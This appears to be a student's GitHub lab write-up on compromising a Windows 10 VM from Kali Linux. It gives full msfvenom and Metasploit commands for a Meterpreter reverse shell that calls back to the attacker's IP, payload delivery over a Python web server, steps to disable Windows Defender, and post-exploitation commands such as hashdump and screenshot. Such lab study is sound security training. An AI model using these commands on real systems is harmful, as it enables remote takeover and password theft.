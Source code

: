 # 💀 Project 2: Windows VM Compromise via Malware Execution

## 🧠 Objective

Simulate a real-world cyberattack by generating a malicious payload on Kali Linux, executing it on a Windows VM, and gaining remote access through a reverse shell.

---

## 🛠️ Tools Used

- **Attacker Machine**: Kali Linux (VirtualBox)
- **Victim Machine**: Windows 10 (VirtualBox)
- **Utilities**:
  -  Enabled Remote desktop in Windows Vm
  - `msfvenom` – to create the reverse shell payload
  - `Metasploit Framework` – for listener and session control
  - `Python3` – for hosting the payload
  - `Windows Defender` – disabled temporarily for execution

---

## 🧱 Lab Setup

| Machine        | OS         | Role     | IP Address     |
|----------------|------------|----------|----------------|
| Kali Linux     | Kali 2023+ | Attacker | 192.168.x.10   |
| Windows 10     | Win10 Pro  | Victim   | 192.168.x.20   |

_Note: Replace IP addresses with your actual VM IPs._

---

## 🔨 Step-by-Step Execution

### 1. Generate Reverse Shell Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.x.10 LPORT=4444 -f exe > reverse_shell.exe
```

This creates a Windows executable that connects back to Kali on port 4444.

2. Start Metasploit Listener
```bash
msfconsole
```
Inside Metasploit:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.x.10
set LPORT 4444
exploit
```
3. Transfer Payload to Windows VM
Run a Python HTTP server in Kali:
```bash
python3 -m http.server 8080
```

Then in Windows VM browser:

```bash
http://192.168.x.10:8080/reverse_shell.exe
```
⚠️ Disable antivirus temporarily to avoid deletion.

start>settings>privacy&security>windows secuirty> Virus & Threat protection

4. Execute Payload in Windows
   Double-click the file reverse_shell.exe. Back in Kali’s Metasploit console, you'll see:
   ```ngnix
   Meterpreter session 1 opened
   ```
5. Post-Exploitation Examples
```bash
dir   #list out the files
ipconfig   # will give the info of victim vm
sysinfo       # Get system info
getuid        # Get current user
screenshot    # Capture victim's screen
hashdump      # Dump password hashes
```

⚠️ Legal & Ethical Notice
This project is intended for educational purposes in a secure and isolated environment. Do not attempt these activities on unauthorized systems. Always follow ethical hacking guidelines and applicable laws.

🧠 What I Learned
1.Crafting and delivering payloads using msfvenom
2.Handling reverse shells with Metasploit
3.Real-world basics of post-exploitation
4.Importance of antivirus and endpoint detection
   







